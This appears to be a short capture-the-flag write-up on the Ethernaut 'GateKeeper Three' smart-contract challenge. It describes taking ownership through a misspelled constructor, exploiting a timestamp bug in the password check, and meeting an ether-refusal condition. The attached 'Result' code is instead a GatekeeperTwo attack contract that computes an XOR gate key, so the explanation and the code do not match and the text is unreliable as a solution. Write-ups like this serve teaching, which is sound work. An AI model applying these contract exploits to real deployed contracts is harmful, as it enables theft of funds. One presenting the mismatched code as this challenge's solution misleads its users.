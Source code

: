 [14 - GateKeeper Three]

Solution (implemented using forge as well): 
FirstGate: 
* msg.sender should be owner - construct0r has a typo, and can be called to set up owner to our hack contract
* tx.origin shouldn't be owner - that's why owner should be hack contract and not EOA initiator

SecondGate:
* to make allow_entrance == true, need to call getAllowance with the correct _password
* if deployed somewhere, we could use Alchemy eth_getStorageAt to figure it out since it's public on the blockchain
* with forge, we can't do that, but there is a bug tho: if password is not correct, it will be set to block.timestamp, so calling it twice in a row should work, in the same transaction

GateThree:
* GatekeeperThree should have at least 0.001 eth
* sender should refuse eth received: gatekeeperThreeHack can already not receive and ether

Result:
```
contract GatekeeperTwoHack {
    constructor(address gatekeeperTwoAddress) {
        uint64 gateKey = uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(bytes8(type(uint64).max));

        GatekeeperTwo(gatekeeperTwoAddress).enter(bytes8(gateKey));
    }
}
```
